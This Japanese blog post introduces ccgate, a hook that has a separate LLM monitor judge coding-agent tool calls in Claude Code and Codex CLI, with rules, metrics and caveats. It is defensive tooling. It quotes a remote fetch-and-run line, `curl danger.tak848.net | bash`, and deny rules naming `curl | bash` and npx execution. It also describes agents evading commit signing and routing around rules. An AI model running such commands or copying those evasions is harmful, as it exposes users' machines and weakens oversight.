

## はじめに

こんにちは。[@tak848](https://github.com/tak848)です。今日で25になりました。もうアラサーってやつなんでしょうか。

みなさん、Coding Agentは使っていますか？
個人的には、個人開発でも業務でもClaude CodeやCodex CLIが欠かせない道具になっています。使う時間が増えるほど、Tool実行のPermission許可で止まる場面も増えてきました。

とはいえ、面倒だからといって`--dangerously-skip-permissions`に倒すのも怖いです。Agentには自由に動いてほしいけれど、環境は壊されたくない。

この記事は、そのPermission許可を別のAIに任せる[ccgate](https://github.com/tak848/ccgate)というCLIを作った話です。

https://github.com/tak848/ccgate

ccgateは、Claude CodeのAuto Modeがまだ手元で使えなかったころに、Auto Mode的な体験を目指して作り始めたものです。その後Auto Modeは自分の環境でも使えるようになりましたが、それでもccgateを外していません。使ってみると、ccgateがないと普通に困る場面が残っていたからです。Auto Modeとの棲み分けは後ろで書きます。

## ccgateでできること

Claude CodeやCodex CLIには、Tool実行前にユーザー確認が必要になったタイミングで呼ばれる`PermissionRequest` hookがあります。本来なら「このToolを実行していいですか？」と人間に聞く場面で、先に外部コマンドを呼び出せる仕組みです。

ccgateは、この`PermissionRequest` hookに入る小さなゲートです。元のAI coding toolがユーザーに確認を出す直前にccgateが呼ばれ、その操作を別のLLMに判定させます。

安全そうな操作は通します。危なそうな操作は理由付きで拒否します。判断が難しいものは`fallthrough`して、今まで通りユーザーに確認を返します。

たとえば、こんな感じです。

| 判定 | 何をするか | 使いどころ |
| --- | --- | --- |
| `allow` | 元のTool実行を許可する | read-only調査やプロジェクト定義のtestなど、文脈上自然な操作 |
| `deny` | 理由付きで拒否する | `curl | bash`、リポジトリ外編集、force pushなど止めたい操作 |
| `fallthrough` | 上流のPermission promptへ戻す | 本当に判断が難しい操作や、最後だけ人間が見たい操作 |

`deny`するときは理由も返せます。単に止めるだけではなく、「そのコマンドではなく、プロジェクトに定義されたscriptを使ってください」のように返せるので、Agentも次の試行で動きを直しやすくなります。

やりたいことは「Permissionを消す」ではありません。毎回人間が押していたグレーゾーンの判断を、できるだけ文脈つきで自動化することです。



## 使い方

最新の手順は[README](https://github.com/tak848/ccgate)を見てください。ここではClaude Code向けの最短だけ載せます。

やることは、インストール、hook登録、API key設定の3つです。

インストールはmise経由を推奨しています。

```bash
mise use -g aqua:tak848/ccgate
```

次に、`~/.claude/settings.json`の`PermissionRequest` hookにccgateを登録します。

```json
{
  "hooks": {
    "PermissionRequest": [
      {
        "matcher": "",
        "hooks": [
          {
            "type": "command",
            "command": "ccgate claude"
          }
        ]
      }
    ]
  }
}
```

最後に、Anthropic API keyを設定します。

```bash
export CCGATE_ANTHROPIC_API_KEY=...
```

または`ANTHROPIC_API_KEY`でも動きます。

設定ファイルなしでも組み込みのデフォルトルールで動きます。カスタマイズしたい場合は、デフォルトを吐き出して編集します。

```bash
ccgate claude init > ~/.claude/ccgate.jsonnet
```

プロジェクトごとのルールを足したい場合は、未追跡のローカル設定として置けます。

```bash
ccgate claude init -p > .claude/ccgate.local.jsonnet
```

Codex CLI側では`ccgate codex`、`ccgate codex init`、`ccgate codex metrics`を使います。Codex hooks側の設定は公式の[Codex hooks docs](https://developers.openai.com/codex/hooks)も見てください。

```text
ccgate claude          # Claude Code hook
ccgate claude metrics

ccgate codex           # Codex CLI hook
ccgate codex metrics
```

## なぜ作ったか

Permission promptはもちろん大事な安全装置です。Claude Codeにファイル編集やコマンド実行を任せていると、「このToolを実行していいですか？」と聞かれることがあります。

ただ、長めのタスクを任せて少し放置し、戻ってきたらPermission promptで止まっていて全然進んでいないことがあります。これはかなりげんなりします。

一方で、面倒だからといって全部を自動許可したいわけではありません。Agentには自由に動いてほしい。でも、環境を壊されず、プロジェクトルールに従ったコマンドでシュッと解決してほしい。その間を埋めたかった、というのが出発点です。

個人的につらいものの一つが、Plan modeなどで動くExplore Agentです。コードベースを調べるために、`$()`、`&&`、`||`、pipeなどを使った高度なシェル芸で検索してくることがあります。中身はAllow Listに入れているコマンドの組み合わせでも、Claude Code側の解析器がうまく扱えず、Permission許可を求めてくることがあります。

こういうシェル芸は、人間が一瞬で安全性を読むにはつらいです。何度もpromptを見ていると、だんだん確認が雑になります。だからこそ、毎回同じルールでLLMに読ませる価値があります。

さらに、`/path/to/reponame-worktree1`のようなworktreeで作業しているのに、`/path/to/reponame`のような元のcheckoutを検索し始めることもあります。こうなると、無限に近い勢いでPermission許可を求められます。

とはいえ、面倒だからといって全部を自動許可するのも怖いです。`gh`も使えるし、ローカルDBを壊すことはあるし、ネットワークにも出られます。AIエージェントが何かを勘違いしたときに、ホスト環境で全部通るのはさすがに緊張感があります。

必要だったのは、Permission promptを消すことではありません。安全側に倒しつつ、プロジェクトルールに沿った操作は止めずに通すことでした。

## だいたい同じ理由で許可/拒否していた

実際に何度も許可/不許可をしていると、「この操作は許可してよい」「これは止めたい」を、だいたい同じ基準で判断していることに気づきます。

たとえば、リポジトリ内のread-onlyな調査、プロジェクトに定義されたtestやlintの実行、feature branch上の普通のgit操作はだいたい通したいです。
一方で、`python` / `python3`の直接実行、task runnerに定義されていない独自スクリプト実行、`npx`や`pnpx`での一発実行は止めたいです。リポジトリ外への編集やforce push、本番っぽい環境への変更も止めたいです。ローカルDBのmigrate-downやdropのように、明確に危ないが自分が指示した可能性もあるものは、人間に戻したいです。

`npx`や`pnpx`を避けたいのは、単に好みの問題だけではありません。最近もnpmエコシステムでは、2025年9月の[Shai-Hulud](https://www.csa.gov.sg/alerts-and-advisories/alerts/al-2025-093/)のような広範なサプライチェーン攻撃や、2026年3月の[axios npmパッケージ侵害](https://snyk.io/blog/axios-npm-package-compromised-supply-chain-attack-delivers-cross-platform/)が報告されています。Agentが思いつきで未固定のnpm packageを実行するより、リポジトリに定義されたscriptやlockfileの範囲に寄せたいです。

意図しないツール操作をし始めることもあります。プロジェクトに定義されたtaskを使わずに独自コマンドを組み立てる。意味もなく`cd`してから操作する。allowにもdenyにも登録していないので、結果的にPermission許可を求めてくる。そして、こちらは毎回似たようなコメントで拒否する。

であれば、その基準をルールに落とし込み、本来の作業をしているAgentとは別の第三者AIに任せればよいのでは、という発想です。

セキュリティ監査を軽く見る話ではありません。ちゃんとした監査やsandboxingはもちろん別で必要です。そのうえで、Permission promptの場で毎回やっている判断には、比較的客観的に言える部分があります。

たとえば「この操作は現在の作業文脈で自然か」「ローカルの開発作業に閉じているか」「既存のtask runnerを使っているか」「不可逆・外部影響・権限昇格に寄っていないか」くらいの判断です。

問題は、この判断を人間が毎回やることです。1日に何十回、多い日は100回以上もPermission promptを見ると、よくないことですが、集中して読み続けるのは難しいです。特に長いシェルコマンドは毎回丁寧に読むのが大変です。結局、反射でYesを押したり、同じような理由でNoを押して、また同じ説明をAIに投げたりしがちです。

「こういうコマンドはやめて」とルール用のMarkdownに書いても、Agentは長い作業の途中で忘れます。だったら、第三者AIに毎回同じルールで見てもらう。人間が作業中に毎回判断するより、同じ基準で淡々と見続けられます。拒否するときも理由を返せば、元のAgentに「なぜダメなのか」「代わりにどうすればよいのか」を伝えられます。

Tool利用のハーネスで止まり続けるのではなく、必要なところだけ薄くゲートを置きたい。これがccgateの出発点です。

## 止めたい操作の具体例

実際に困っていたのは、単に「Yesを押す回数が多い」ことだけではありませんでした。止めたい操作には、だいたいパターンがあります。

たとえば、以下のようなケースです。

- 作業中のworktreeではなく、元のcheckout側を読みにいって止まる
- `&&`、`||`、`$()`、pipeなどを含むシェル芸で、静的なallowに入れているコマンドなのに確認が出る
- `gh pr view`は通したいが、`gh pr edit`や`gh api`の書き込み系まで雑にallowしたくない
- `git commit --no-gpg-sign`や`git -c commit.gpgsign=false`で、署名を雑に回避しようとする
- 本来は`make test`や`pnpm run lint`を使えばいいのに、Agentが独自の`npx`や`pnpx`を始めようとする。npm経由のサプライチェーン攻撃もあるので、未固定の一発実行は避けたい
- systemの`python` / `python3`を直接実行する。自分の環境では、最低限`uv run`や`uvx`を使ってほしい
- ローカルDB相手でも、migrate-downやdropのようにデータを飛ばしうる操作を始めようとする。このへんは自動許可せず、人間に戻したい
- 「これは毎回ダメ」とコメントして拒否しているのに、似たような操作が何度も出る

`gh`を全部denyすると不便です。かといって全部allowすると危険です。`Bash(git *)`も同じです。読み取りは通したい。feature branchへのpushも通したい。force pushやmainへのpushは止めたい。

こういう「コマンド文字列だけでなく、文脈込みで判断したい」領域がccgateの主戦場です。ユーザーが明示的に危険操作を指示した場合も、勝手に通すのではなく、`fallthrough`で人間の確認に戻せます。

## Auto Modeとの棲み分け

ccgateの着想には、Claude Codeの[Auto Mode](https://claude.com/blog/auto-mode)も大きく関係しています。

Auto Modeは、Claude CodeのTool実行を別のclassifierが事前にチェックし、安全と判断した操作はPermissionプロンプトなしで通し、危険そうな操作はブロックするモードです。Anthropicの[engineering blog](https://www.anthropic.com/engineering/claude-code-auto-mode)では、プロンプト疲れと権限確認の全面バイパスの間を埋める仕組みとして説明されています。

技術書典20向けの原稿を書いていた2026年3月30日時点では、私のMax環境ではAuto Modeを使えませんでした。使えたタイミングも一瞬あり、そのときに「Permissionプロンプトが消えるだけで、こんなに作業が進むのか」とかなり感動しました。

ただ、2026年4月28日時点では状況が変わっています。公式の[Permission modes](https://code.claude.com/docs/en/permission-modes)によると、Auto ModeはClaude Code v2.1.83以降で利用できます。
対象プランはMax、Team、Enterprise、APIです。ただしProでは使えません。Team / Enterpriseでは管理者による有効化が必要で、モデル条件もあります。MaxではOpus 4.7のみ、Team / Enterprise / APIではSonnet 4.6、Opus 4.6、Opus 4.7が対象とされています。
ProviderはAnthropic APIのみで、Bedrock、Vertex、Foundryでは利用できないとも書かれています。

つまり、技術書典の原稿に書いた「当時使えなかった」は当時の事実ですが、現在の利用条件は変わっています。

では、Auto Modeがあるならccgateはいらないのか？

自分の結論は「Auto Modeはまず使う価値がある。ただ、ccgateにはAuto Modeとは違う価値がある」です。

まず、Auto Modeは独立したpermission modeなので、Plan mode中のPermission地獄からは抜け出せません。自分がかなり困っていたのは、まさにPlan modeのExplore Agentがシェル芸で検索したり、worktree外を読みにいったりして止まるケースでした。

また、Auto Modeもルールを設定できますが、どんなプロンプトで判断されているか、どういう粒度でログに残るかは外からは限定的です。

ccgateで全部を防げるわけではありません。履行するAIも、いろいろな経路で目的を達成しようとします。それでも、ccgateは毎回独立したLLM判定として呼ばれます。プロンプト、設定、ログ、metricsを自分で見える形にできます。自分にとっては、ここがかなり大事でした。

Auto ModeはClaude Code本体に組み込まれたモードです。公式の仕組みなので、Claude Codeの内部のPermission評価やsubagentの扱いと深く統合されています。たとえば公式ドキュメントによると、Auto Modeでは広すぎる`Bash(*)`などのallowルールがdropされ、read-only操作や作業ディレクトリ内のファイル編集はclassifierを通さずに自動許可されます。また、classifierが3回連続、または合計20回ブロックすると通常のPermissionプロンプトへフォールバックします。

このあたりは外部hookでは再現しづらいです。Auto Modeはかなりちゃんと作られています。

一方、ccgateはClaude CodeとCodex CLIの`PermissionRequest` hookに乗る外付けのゲートです。Auto Modeのようにmodeを切り替えるものではなく、いま使っているmodeの上で動きます。

Auto ModeはClaude Codeのmodeの一つなので、Plan mode中には使えません。ccgateはmodeではないので、PermissionRequestに流れてきた操作を判定できます。

| 観点 | Auto Mode | ccgate |
| --- | --- | --- |
| 位置づけ | Claude Code本体のpermission modeの一つ | `PermissionRequest` hookとして重ねる外付けゲート |
| 使い方 | Auto modeへ切り替えて使う | 既存のmodeのままhookとして動く |
| 判定対象 | Auto Modeに入っている間のTool実行 | PermissionRequestに流れてきた操作 |
| 判定結果 | 基本は許可 or ブロック | 内部的に`allow` / `deny` / `fallthrough` |
| わからない時 | classifier側で判断、または一定回数後にフォールバック | その場で`fallthrough`してユーザー確認に戻せる |
| ルール | `autoMode.environment` / `allow` / `soft_deny` | jsonnetの`allow` / `deny` / `environment` |
| メトリクス | Claude Code側のUIやログに依存 | `ccgate claude metrics` / `ccgate codex metrics`で集計できる |
| Plan mode中 | Auto Modeとは別modeなので、Plan中には使えない | Plan mode中のPermissionRequestも判定できる |
| 対象ツール | Claude Code | Claude Code / Codex CLI |

また、Codex CLIにはClaude CodeのAuto Modeと同じ名前のmodeがあるわけではありません。Codex CLI側のDefault、Full Access、`auto_review`については後で分けて書きますが、ccgate codexはCodex本体の自動判断を置き換えるものではありません。Codex CLIが通常ならapproval promptへ進める操作を、ccgateのルールで判定するためのものです。

特に自分にとって大きかったのは、Plan mode中にも効かせられることと、`fallthrough`を持てることでした。

Claude CodeのPlan modeは「まず調べて計画してね」というモードですが、公式ドキュメントにもある通り、Permissionプロンプト自体はdefault modeと同じように適用されます。調査中のAgentが`rg`、`find`、`git`を組み合わせたり、`&&`や`$()`を含むコマンドで動き回ったりすると、それだけで確認が増えます。

ccgateはPermissionRequest hookなので、Plan mode中に確認へ流れてきた操作も判定できます。もちろん、Plan modeでの正しさはccgate側のプロンプトによる制御であり、完全な保証ではありません。ここはccgateの既知の限界です。それでも、自分の作業では「調査しておいて」と投げて、戻ってきたらかなり進んでいる体験に近づきました。

## Codex CLIでも同じ問題が出てきた

ここまでClaude Codeの話を中心に書いてきましたが、許可判断をどう扱うかはClaude Codeだけの問題ではありません。
Codex CLIは、設定次第ではもともとかなり自動で進みます。自分はsandboxを使いつつ、network accessは許可する設定で使っています。その状態だとClaude Codeほど大量にapproval promptが出るわけではありません。

ただ、Codex CLIもapproval policyやsandboxの範囲で通せるものは進み、リスクが高い、または追加の承認が必要と判断されたところでapproval promptが出ます。つまり、普段は自動で進みつつ、リスクが高そうなところだけ人間に判断が戻ってきます。これは良い設計です。本来そこは丁寧に見るべき場所ですが、実際には作業の流れの中で雑に許可してしまうこともあります。

ここも、Claude Codeと同じように、普段の判断をルールに落とし込めます。ローカルのread-only調査やプロジェクト定義のtestは通したい。`curl | bash`、リポジトリ外の破壊的操作、意図しない外部通信は止めたい。ローカルDBを壊しそうな操作などは人間に戻したい。Codex CLIのデフォルト挙動を否定したいわけではなく、approval promptに戻ってきた判断を、より一貫したルールに寄せたいという話です。

ここで、Codex CLI側の自動化っぽい仕組みを分けておきます。
2026年4月28日時点のopenai/codexを見ると、少なくとも次のものは別物です。

| 仕組み | 何をするか | ccgateとの関係 |
| --- | --- | --- |
| Default | workspace内の編集やコマンドは進め、internet accessやworkspace外の編集などでapprovalを求める | approval promptに戻るところをccgateで扱える |
| Full Access | `approval_policy = never`相当で、workspace外の編集やinternet accessも確認なしで進める | prompt自体が出ない方向なので、ccgateとは目的が違う |
| `auto_review` | approval requestをCodex内のguardian subagentに渡し、risk-basedにallow/denyする | Codex本体側の自動レビュー |
| `ccgate codex` | `PermissionRequest` hookに流れてきた操作を、jsonnetルールとLLM判定でallow/deny/fallthroughする | 手元のルール、ログ、metricsを自分で持てる |

`auto_review`については、OpenAI Codexの[app-server README](https://github.com/openai/codex/blob/main/codex-rs/app-server/README.md)で`approvalsReviewer: "auto_review"`として説明されています。
実装を見ると、guardian subagentがコンパクトな会話履歴と対象アクションを読み、risk-basedに判断します。
また、`config.toml`には`auto_review.policy`もあり、固定のguardian prompt全体を置き換えるというより、Policy Configuration部分に渡すポリシーを設定できる形です。

なので、`auto_review`は「Claude CodeのAuto Modeそのもの」ではありません。
Claude CodeのAuto Modeはpermission modeの一つですが、Codex CLIの`auto_review`はapproval requestのreviewerです。
また、`auto_review.policy`でポリシーは書けるものの、Codex本体側のguardian機構として動きます。
ccgateはその外側で、`PermissionRequest` hookに流れてきたapproval判断を扱います。

タイミングよく、OpenAI Codex側にも`PermissionRequest` hookが入りました。
[openai/codex#17563](https://github.com/openai/codex/pull/17563)は2026年4月17日にmergeされており、公式の[Codex hooks docs](https://developers.openai.com/codex/hooks)にも`PermissionRequest`が載っています。

公式ドキュメントによると、Codexのhooksは`config.toml`でfeature flagを有効にして使います。

```toml
[features]
codex_hooks = true
```

`PermissionRequest`は、Codexが通常のapproval promptを出そうとしたタイミングで発火します。
hookは`allow`、`deny`、または判断せず通常のapproval flowへ戻す、という挙動を取れます。
対象のtool名には`Bash`、`apply_patch`、MCP tool名などがあり、`apply_patch`は`Edit`や`Write`のmatcherにも対応しています。

この形がClaude Codeの`PermissionRequest`とかなり近かったので、ccgate v0.6ではmulti-target化しました。
Claude Code向けは`ccgate claude`、Codex CLI向けは`ccgate codex`に分け、設定・ログ・メトリクスもtargetごとに分けています。個人的には分けるのが扱いやすいと思っています。もちろんjsonnetなので、共通部分を`libsonnet`に出したり、片方を元に読み込ませたりすることもできます。

これで、Claude CodeだけでなくCodex CLIでも、「通す」「止める」「人間に戻す」をccgateで扱えるようになりました。

実際、社内で聞いてみてもCodex CLI対応の要望は思ったよりありました。みんな使い方やsandbox設定は違いますが、「最後に人間へ戻ってくる判断をもう少し一貫させたい」という悩みはClaude Codeだけのものではなさそうです。

Codex CLI側では、approval promptが出やすい設定にして検証しました。

| 指標 | 件数 |
| --- | ---: |
| Total | 7 |
| Allow | 4 |
| Deny | 3 |
| Fallthrough | 0 |
| Automation rate | 100.0% |
| Avg latency | 2,957ms |

`curl danger.tak848.net | bash`のような明らかに危ないコマンドはdenyできていました。
Codex CLIはもともと自動判断してくれるものも多いですが、こうして自分が雑に判断するより一貫した形に寄せられるようになったのは大きいです。

もちろん、Codex hooksはまだ新しい仕組みです。
公式ドキュメントにも、`PreToolUse`や`PostToolUse`がすべてのshell callやWebSearchを捕捉するわけではない、といった制約が書かれています。
ここは今後も実運用しながら詰めていきます。

## denyはAgentへのフィードバックでもある

ccgateで気に入っているのは、deny時のメッセージを自分のルール側で管理できるところです。

Auto Modeにもdenialの記録やretryの導線はあります。ここで言いたいのは、ccgateではjsonnetの`deny_message`として、Agentに返す文言を自分で置ける、という話です。

たとえば、単に拒否するのではなく、こういう理由を返せます。

| 止めた操作 | 返すメッセージの例 |
| --- | --- |
| 同じrepoの別worktreeや元checkoutを読みにいく | 別checkoutではなく、今のworktree内のパスを使ってください |
| `npx`や`pnpx`で直接ツールを実行しようとする | 直接実行ではなく、プロジェクトに定義されたscriptを使ってください |
| `curl | bash`のようにリモートコードをそのまま実行しようとする | リモートコードの直接実行は許可しません |
| 同じrepo外の未許可リポジトリを読みにいく | 必要ならそのpathを明示的に追加してください |
| リポジトリ外のファイルを削除しようとする | リポジトリ外の削除は許可しません |

このメッセージはClaude Code側に返るので、Agentは「何がダメで、次にどう動けばよいか」を理解してリトライできます。

人間がPermissionプロンプトでNoを押しても、理由が弱いと同じような操作を繰り返されがちです。ccgateではdeny理由をルール側に書いておけるので、毎回同じ注意を人間が打たなくてよくなります。

これは「安全のために止める」というより、「正しい作業経路へ誘導する」に近いです。第三者LLMは作業を完遂したいAgent本人ではないので、必要ならかなり冷静にdenyできます。そのうえでmessageを返せるので、止めるだけでなく、Agentに次の正しい動き方を伝えられます。

一方で、判断を人間に戻したい操作は`deny`ではなく`fallthrough`にします。たとえば、自分の設定ではローカルDBのmigrate-downや、draft PRを作る最終段階のように、最後だけ人間が見たい操作は`fallthrough`寄せです。ここは「拒否理由を返す」と「上流の確認に戻す」を分けて考えています。

特に長いシェルコマンドは、人間が疲れた状態で読むと目が滑ります。Haikuだとしても、毎回同じルールでちゃんと読ませる方が、自分の運用では安全側に寄ると感じています。

## 実際どれくらい自動化されたか

自分の環境で`ccgate claude metrics`を見たところ、2026年4月1日から4月28日までに、Claude Code側だけで2,038件のPermissionRequest相当の判定がありました。

内訳は以下です。

| 指標 | 件数 |
| --- | ---: |
| Total | 2,038 |
| Allow | 1,725 |
| Deny | 189 |
| Fallthrough | 113 |
| Error | 11 |
| Automation rate | 93.9% |

この93.9%は、ccgate開発中の検証や設定変更が混ざった全期間の集計です。普段の運用では、97%から100%近くまで自動化されている日もあります。多い日では1日236件、別の日にも224件や201件の判定がありました。これを全部自分で押していたら、かなりの集中力が削られていたと思います。

しかも、単に許可しているだけではなく、denyやfallthroughもちゃんと出ています。自分のログでは、リポジトリ外への編集、PR本文の直接編集、作業ディレクトリ外でのコマンド実行などはdeny側に出ていました。ローカルDBを壊しうる操作は、人間に戻すfallthrough側で見えています。社内固有のパスやプロジェクト名をそのまま出すわけにはいきませんが、「便利になった代わりに全部通っている」わけではないことは確認できています。

fallthroughも失敗ではありません。たとえば2026年4月26日のClaude側ログでは、62件中2件がfallthroughでした。自分の設定では、ローカルDBのmigrate-downのように、ローカル相手でも急にデータが飛ぶと困る操作は人間に戻すことがあります。

metricsを見てルールを調整できるのも便利です。read系のMCP操作がよく発火していることがわかったら、引数評価がいらないものは静的allowに寄せる、逆に危ないものはdenyに寄せる、という改善ができます。

平均レイテンシは自分の直近ログではおおむね3秒台でした。自分には十分許容範囲です。人間が3秒でPermission promptに返事をしているとしたら、それはかなり流れで押している状態だと思っています。だったら、LLMに理由付きで判断させた方が、自分の運用には合っていました。

## ルールは自然言語で書く

ccgateの設定はjsonnetです。`allow`、`deny`、`environment`を自然言語で書きます。

これは、自分のオタク管理しているdotfilesから派生した都合も大きいです。jsonnetはJSONのスーパーセットなので普通のJSONっぽくも書けますし、共通部分を切り出せるのも便利です。一方で、今のところ設定形式がjsonnetのみなのは少し尖っています。純粋にJSON対応できていないだけなので、JSON対応のPRも歓迎です。

たとえば、次のようなイメージです。

```jsonnet
{
  environment: [
    'This repository is a trusted local development repository.',
    'Use project-defined task runners such as make, pnpm, mise, or task when available.',
  ],

  allow: [
    'Read-only inspection commands inside the current repository are allowed.',
    'Running project-defined lint, test, build, and format commands is allowed.',
    'Read-only GitHub CLI operations such as viewing pull requests are allowed.',
  ],

  deny: [
    'Do not run one-shot remote package execution such as npx, pnpx, bunx, or curl | bash. deny_message: リモートコードの直接実行は許可しません。リポジトリに定義されたコマンドを使ってください。',
    'Do not access sibling checkouts when running inside a git worktree. deny_message: 現在のワークツリー内のパスを使ってください。',
    'Do not force push or push directly to protected branches. deny_message: gitの破壊的操作なので自動では許可しません。',
    'Do not delete files outside the current repository. deny_message: リポジトリ外の削除は許可しません。',
  ],
}
```

ポイントは、LLMに丸投げするのではなく、自分がいつも同じ理由で許可/拒否している判断をルールに落とし込むことです。

たとえば、自分は「プロジェクトに定義されたtask runnerを使え」という方針を強めに書いています。AIエージェントは、目的を達成しようとして独自のコマンドを組み立てがちです。もちろん賢いのですが、チームの開発環境にはすでに`make`、`pnpm run`、`mise run`、`task`などの入口が用意されていることが多いです。

それを使わせるだけで、謎の直接DB操作や、急な`npx`や、意味のない`cd`をかなり減らせます。

## fallthrough_strategyで無人実行にも寄せられる

デフォルトでは、ccgateが判断に迷った場合は`fallthrough`して元のPermission / approval promptに戻します。対話しながら使うならこれが安全です。
これは「自動化できなかった失敗」ではなく、意図した逃げ道です。

たとえば、LLMが本当に判断できない操作は人間に戻したいです。また、自分のdotfilesでは、draft PRを作る最終段階のような「基本的にはやってほしいが、最後の公開操作だけは人間が見る」ケースを意図的に`fallthrough`させています。
全部をallow / denyに倒すより、最後に人間へ戻す余地を残せる方が、普段使いでは扱いやすいです。

ただ、`fallthrough`ばかりでも結局止まります。スケジューラやbotのように人間がクリックできない環境では、`fallthrough`した時点で進まなくなります。

そのため、ccgateには`fallthrough_strategy`があります。

```jsonnet
{
  fallthrough_strategy: 'deny',
}
```

`deny`にすると、LLMが迷った操作を自動拒否します。`allow`も選べますが、これはかなり強い設定です。LLM自身が迷った操作を通すことになるので、自分は無人実行でも基本は`deny`寄せがよいと思っています。

このへんも`ccgate claude metrics`や`ccgate codex metrics`で後から確認できます。`F.Allow`や`F.Deny`の列を見ると、fallthroughが強制的にallow / denyへ寄せられた回数がわかります。

## 注意点

ccgateは安全を保証する仕組みではありません。

まず、LLM判定なので誤判定はありえます。強い境界が必要なものは、Claude Codeの`permissions.deny`やmanaged settings、sandboxingで守るべきです。公式ドキュメントでも、Permissionとsandboxingは別の防御層として説明されています。

次に、API keyとAPIコストが必要です。ccgateはデフォルトでClaude Haikuを使いますが、判定のたびにAPI callが発生します。自分のログでは体感上かなり許容範囲ですが、重いCIや大量の無人実行に入れるならメトリクスを見ながら調整したほうがよいです。

:::details なぜ`claude -p`ではなくAnthropic APIを直接叩いているのか

最初は、Claude Codeのsubscriptionをそのまま使えるならその方がうれしいので、`claude -p`経由で作れないかも試していました。

ただ、自分が試した時点ではかなり厳しかったです。hookの中で`claude`を起動すると、settingsや周辺コンテキストを読み込むぶん起動からレスポンスまでが遅くなります。また、Haikuで判定させているつもりなのに期待したモデル指定にならない、構造化された出力を安定して得るのが難しい、などでかなり沼りました。

Permission判定は、毎回小さく速く、同じ形式で返ってほしい処理です。いまのccgateではClaude Code本体の文脈から切り離して、第三者のLLMとしてHaikuに判断させています。作業中のAgent本人ではないので、安く高速に、かなりフラットな立場でallow / deny / fallthroughを返してくれる。自分の用途ではこちらの方が扱いやすかったです。

今の`claude -p`なら改善している部分もあるかもしれませんが、少なくともccgateを作った時点では、APIを直接叩く方が素直でした。

:::

また、Plan modeの正しさはプロンプトに依存しています。ccgateはPlan mode中の副作用を避けるように判定しますが、hard guaranteeではありません。ここは[Issue #37](https://github.com/tak848/ccgate/issues/37)として扱っています。

最後に、Auto Mode、Claude Code hooks、Codex hooksの仕様はかなり速く変わっています。この記事の仕様に関する事実は、2026年4月28日時点で公式ドキュメントを確認した内容に基づいています。
使う前には、[Permission modes](https://code.claude.com/docs/en/permission-modes)、[Configure auto mode](https://code.claude.com/docs/en/auto-mode-config)、[Claude Code hooks](https://code.claude.com/docs/en/hooks)、[Codex hooks](https://developers.openai.com/codex/hooks)を確認してください。

## 技術書典の本もあります

Auto Modeの仕組みや、Permission hookで自前のガードレールを作る設計思想は、技術書典20で出版した[LayerX Tech Book Vol.2](https://techbookfest.org/product/jbe1zdnjqbb6cHwebRhapn?productVariantID=3VefBkLxtiAHJr1vAHjJMY)にも書きました。

https://techbookfest.org/product/jbe1zdnjqbb6cHwebRhapn?productVariantID=3VefBkLxtiAHJr1vAHjJMY

そちらは、Auto Modeの発表直後にかなり調べて、Permission評価の流れ、classifierの考え方、hookでどこまで再現できるかをもう少し丁寧に書いています。ただし、Auto Modeの利用条件などは2026年3月30日時点の情報です。この記事では2026年4月28日時点の公式ドキュメントを見て更新していますが、使う前には最新の公式情報を確認してください。

Tech Book全体としても、プロダクト組み込みにおけるプロンプトチューニングの話、AI組み込み、Slackアプリ、イベント配信の裏側など、LayerXのいろいろな実践が詰まっています。よければぜひ。

## おわりに

AIエージェントを使う時間が増えるほど、「何をさせるか」だけでなく、「どこまで自動でやらせるか」を設計する必要が出てきます。

Permissionプロンプトは安全のために必要です。しかし、毎回流れでYesを押しているなら、それは安全装置としても体験としても中途半端です。一方で、全部をbypassするのも怖い。

ccgateは、その間に置くための小さなゲートです。

自分の環境では、2026年4月1日から4月28日までのClaude Code側判定で、開発中の検証や設定変更を含む全期間集計では93.9%、普段の運用では97%から100%近くが自動化される日もありました。denyやfallthroughもちゃんと機能しています。体感としても、Claude Codeに長めの調査や実装を任せたときの「戻ってきたら止まっていた」がかなり減りました。Codex CLIでも、同じ考え方を使えるようになっています。

Permission許可に疲れているけど、`--dangerously-skip-permissions`には倒したくない人は、ぜひ試してみてください。

https://github.com/tak848/ccgate
